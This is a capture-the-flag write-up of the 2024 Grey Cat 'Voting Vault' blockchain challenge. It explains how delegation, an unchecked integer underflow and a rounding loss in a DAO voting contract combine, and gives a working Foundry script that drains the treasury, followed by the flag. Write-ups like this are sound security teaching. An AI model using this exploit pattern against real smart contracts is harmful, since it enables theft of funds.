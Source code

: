 ```yaml
---
title: Blockchain - Voting Vault
description: 2024 | Grey Cat The Flag | Blockchain
tags:
    - smart contract
    - double spending
    - precision loss
    - integer underflow
---
```


## Description

In the spirit of decentralization, GreyHats is now a DAO! Vote with your GREY tokens to decide how our funds are spent.

> nc challs.nusgreyhats.org 30401

> [Challenge Files](https://github.com/MiloTruck/evm-ctf-challenges/tree/8763f5fd12c3179227ec9cac0b21b959c6144dca/src/voting-vault)

## Solution

- 10,000 GREY is deposited into the treasury. To solve the challenge, we need to drain the treasury by creating a withdrawal proposal and gathering enough votes to execute it
- Votes can be obtained by locking GREY for at least 30 days. The voting power can be transferred to others through `VotingVault::delegate()`, and can be done any number of times

    ```js
    function delegate(address newDelegatee) external {
        require(newDelegatee != address(0), "cannot delegate to zero address");

        (UserData storage data, address delegatee) = _getUserData(msg.sender);
        Deposit[] storage deposits = data.deposits;

        data.delegatee = newDelegatee;

        uint256 length = deposits.length;
        if (length == 0) return;

        Deposit storage lastUnlockedDeposit = deposits[data.front];
        Deposit storage lastDeposit = deposits[length - 1];
        uint256 amount = lastDeposit.cumulativeAmount - lastUnlockedDeposit.cumulativeAmount;
        
        uint256 votes = _calculateVotes(amount);
        _subtractVotingPower(delegatee, votes);
        _addVotingPower(newDelegatee, votes);
    }
    ```

- Each person can only vote once for each proposal, but the voting power is reusable. The intuitive idea is to transfer the voting power to other accounts and double spend the votes

    ```js
    function vote(uint256 proposalId) external {
        require(!voted[proposalId][msg.sender], "already voted");

        uint256 blockNumber = proposals[proposalId].blockNumber;
        require(blockNumber < block.number, "same block");
        
        voted[proposalId][msg.sender] = true;

        uint256 votingPower = VAULT.votingPower(msg.sender, blockNumber);
        proposals[proposalId].votes += votingPower;
    }
    ```

- The minimum number of votes required to execute a withdrawal proposal is 1,000,000, while the maximum number of votes we can obtain by locking GREY is 1,300. Due to the limitation of `vote()` function, which only obtains the historical voting power of the previous block, we can only vote once in each block. It is infeasible to reach the threshold and execute the proposal within the validity period of the instance
- When changing the delegatee, the voting power of the previous delegatee will be subtracted. However, the calculation is done within an unchecked block. If `votes` is larger than `oldVotes`, an integer underflow could occur leading to a significant increase in the voting power of the old delegatee

    ```js
    function _subtractVotingPower(address delegatee, uint256 votes) internal {
        uint256 oldVotes = history.getLatestVotingPower(delegatee);
        unchecked { 
            history.push(delegatee, oldVotes - votes); 
        }
    }
    ```

- The number of votes a user receives when locking GREY is calculated based on the amount of GREY being locked. However, when updating the delegatee, the number of transferred votes is calculated based on the **total number** of locked GREY

    ```js
    function lock(uint256 amount) external returns (uint256) {
        ...
        uint256 votes = _calculateVotes(amount);
        _addVotingPower(delegatee, votes);
        GREY.transferFrom(msg.sender, address(this), amount);
        ...
    }

    function delegate(address newDelegatee) external {
        ...
        Deposit storage lastUnlockedDeposit = deposits[data.front];
        Deposit storage lastDeposit = deposits[length - 1];
        uint256 amount = lastDeposit.cumulativeAmount - lastUnlockedDeposit.cumulativeAmount;
        
        uint256 votes = _calculateVotes(amount);
        _subtractVotingPower(delegatee, votes);
        _addVotingPower(newDelegatee, votes);
    }
    ```

- There is a potential loss of precision when calculating votes. Specifically, the number of votes calculated based on the total number of locked GREY could be greater than the number of votes obtained by locking the same amount of GREY several times

    ```js
    function _calculateVotes(uint256 amount) internal pure returns (uint256) {
        return amount * VOTE_MULTIPLIER / 1e18;
    }
    ```

### Exploitation

```js
// forge script Solve --broadcast -vvv --rpc-url $RPC_URL --slow
contract Solve is Script {
    function run() public {
        Setup setup = Setup(vm.envAddress("INSTANCE"));
        uint priv = vm.envUint("PRIV");

        GREY grey = setup.grey();
        VotingVault vault = setup.vault();
        Treasury treasury = setup.treasury();
        
        vm.startBroadcast(priv);
        setup.claim();
        grey.approve(address(vault), 10);
        vault.lock(1);
        vault.lock(9);

        treasury.propose(address(grey), 10000 ether, vm.addr(priv));

        vault.delegate(address(0x1337));
        vm.roll(block.number + 1);  // to pass the local simulation
        treasury.vote(0);

        treasury.execute(0);
        require(setup.isSolved());
        vm.stopBroadcast();
    }
}
```

### Flag

> grey{rounding_is_dangerous_752aa6bb8b6a9f61}
